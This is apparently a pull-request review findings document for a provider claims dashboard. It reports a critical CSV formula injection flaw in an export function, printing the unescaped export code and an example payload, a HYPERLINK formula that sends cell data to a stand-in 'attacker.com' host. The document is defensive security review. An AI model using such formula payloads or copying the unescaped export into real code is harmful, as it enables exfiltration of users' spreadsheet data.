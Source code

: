 # PR #6 Review Findings & Resolution Plan

**PR**: feat(provider): add claims analytics dashboard
**Branch**: `feature/provider-dashboard-wacc` → `develop`
**Reviewers**: CodeRabbit AI + Codex AI
**Date**: 2025-10-06

---

## 📊 Review Summary

| Reviewer | Status | Issues Found | Severity |
|----------|--------|--------------|----------|
| **CodeRabbit** | ✅ Completed | 3 issues | 🟠 Major (Accessibility) |
| **Codex** | ✅ Completed | 1 issue | 🔴 Critical (Security) |
| **Total** | - | **4 issues** | 1 Critical, 3 Major |

---

## 🔴 CRITICAL ISSUES (Must Fix Before Merge)

### Issue #1: CSV Formula Injection Vulnerability (Security)

**Reporter**: Codex AI
**Severity**: 🔴 P1 - Critical (Security)
**File**: `app/(dashboard)/provider/page.tsx`
**Lines**: 71-83 (handleExport function)

**Description**:
The CSV export function builds rows by joining raw claim data without escaping. If any claim field (visitNumber, status, insuranceName) starts with `=`, `+`, `-`, or `@`, Excel/LibreOffice will execute it as a formula, allowing:
- Arbitrary network requests
- Cell overwriting
- Data exfiltration
- Remote code execution (in extreme cases)

**Attack Vector Example**:
```javascript
// Malicious claim data
claim.visitNumber = "=1+1"  // Executes as formula
claim.insuranceName = "=HYPERLINK('http://attacker.com?data='+A1)"  // Sends data
```

**Current Vulnerable Code**:
```typescript
const handleExport = () => {
  const csvContent = [
    ['Visit Number', 'Type', 'Amount (KES)', 'Service Date', 'Submission Date', 'Status', 'Insurer'].join(','),
    ...filteredClaims.map(claim => [
      claim.visitNumber,           // ❌ UNSAFE
      claim.claimType,              // ❌ UNSAFE
      (claim.claimAmountCents / 100).toFixed(2),
      claim.serviceDate.toISOString().split('T')[0],
      claim.submissionDate.toISOString().split('T')[0],
      claim.status,                 // ❌ UNSAFE
      claim.insuranceName,          // ❌ UNSAFE
    ].join(','))
  ].join('\n');
  // ... rest of export
```